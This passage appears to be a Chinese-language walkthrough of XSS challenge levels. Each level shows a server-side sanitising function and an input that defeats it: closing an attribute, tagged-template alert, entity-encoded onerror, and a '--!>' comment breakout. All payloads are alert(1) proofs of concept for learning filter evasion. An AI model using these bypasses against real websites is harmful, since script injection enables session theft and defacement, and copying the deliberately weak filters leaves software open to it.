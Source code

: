 ```javascript
//input code
"><script>alert(1)</script>"

// 在value值中需">进行闭合
```

##### 0x03

```javascript
// server code
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

```javascript
// input code
<script>alert`1`</script>

// g全局匹配，“[()]”替换为空，用``代替
```

##### 0x04

```javascript
// server code
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

```javascript
// input code
<img src=x onerror=alert&#x28;&#x31;&#x29;>

// g全局匹配，“[()`]”替换为空,进行实体编码绕过
```

##### 0x05

```javascript
// server code
function render (input) {
  input = input.replace(/-->/g, '😂')
  return '<!-- ' + input + ' -->'
}
```

```javascript
// input code
--!>
<img src=x onerror=alert(1)>
<!--

// g全局匹配，“-->”替换为😂
// 注释有两种<!-- 注释 -->、<!-- 注释 --!>
```
